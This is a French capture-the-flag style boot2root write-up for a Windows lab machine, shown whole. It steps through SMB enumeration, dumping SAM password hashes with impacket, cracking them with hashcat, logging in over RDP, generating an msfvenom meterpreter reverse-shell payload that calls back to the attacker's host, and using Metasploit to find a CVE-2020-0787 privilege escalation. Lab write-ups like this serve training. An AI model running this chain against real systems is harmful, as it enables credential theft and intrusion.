**Description:**
SAM file is a database containing password hash information for user accounts on the system.  
  
It is recommended for practicing cracking the password of users on the system, gathering information and performing privilege escalation attacks by exploiting a vulnerable service running.

Catégorie : Boot2Root
Systeme : Windows 

Etape : 

- **Enumération** 

Commande: 

`nmap -sC -sV 172.20.39.167` 



On a deux ports tres intéressants, le port 3389 pour le service RDP (Remote Desktop Protocol) et le port 445 pour le service SMB utilisé pour le partage de dossier et fichier 

Lister les dossiers partagés : 

Commande : 
```
smbclient -L //172.20.39.167/ -N 
```


Commande : 

```
smbclient --no-pass \\\\172.20.39.167\\Reg_Backup_03-12-2024 
```



NB: On utilise le back slach \ car les systemes Windows l'utilise 

Parmis ces dossiers on remarque un fichier sam_file (Le SAM (System Account Manger )) est une base de données qui stockes les informations sur les utilisateurs notamment les credentials 

Récupérer le sam_file et system_file 

```
get same_file
get system_file
```

Outil : Pour extraire on a utilisé le impacket de python qui permet de gérer plusieurs actions notamment de fabriquer les ticjets TGT , extraire les passwords ....

Commande : 

`impacket-secretsdump -sam sam_file -system system_file local -outputfile dumps_sam.txt`



Boom on  a extrait les credantials mais les mots de passe sont haché. 
- Craquer les mot de passes en utilisant john ou hashcat Ou avec crackstattion.net 

commande : 
```

hashcat -m 1000 -a 0 e1d28c20baa79c026a7627b80bb40873 /usr/share/wordlists/rockyou.txt 
```

NB : Le -m 1000 signifie qu'il s'agit des hashes NT 



- Se connecter au service RDP en utilisant l'outil Reminia ou xfreerdp3
Nous allons utiliser les identifiant de edward pour nous connecter au RDP 

```
xfreerdp3 /v:172.20.39.167 /u:edward /p:twilight
```


- **Récupérer les infos de la machine** 
Commande Powershell 

`**Get-ComputerInfo**` 

- **Afficher les informations d'identification** 
La commande : 

`cmdkey /list` 

NB: 
La commande

**cmdkey /list** sous Windows sert à afficher la liste de toutes les informations d'identification (noms d'utilisateur, mots de passe) enregistrées dans le Gestionnaire d'informations d'identification de Windows

- Escalade de priviledge 

Etape : 

Commande : 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.8.96.179 lport=4444 -f exe > reverse.exe`

- Uploader sur la cible 

Sur notre machine attaquante:

`python -m http.server 8080`



**Télécharger depuis la cible** 



Avant d'exécuter, mettre sa machine en écoute en utilisant metasploit 



Exécuter ensuite le fichier télécharger pour faire un reverse shell. 



Boom on a obtenu un reverse shell 

Nous allons passer a l'énumération pour découvrire ce qui nous permettra de faire du Privesc 

Donc nous allons utiliser le module local_exploit_suggester de metasploit multi/recon/local_exploit_suggester

Etape : 
Mette le shell en background avec la commande background 
```

use multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set  SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

```
On découvre ainsi une vulnérabilité **exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move** qui permet de faire l'escalade de privilege 


Utilisation et exploitation 
Etape : 


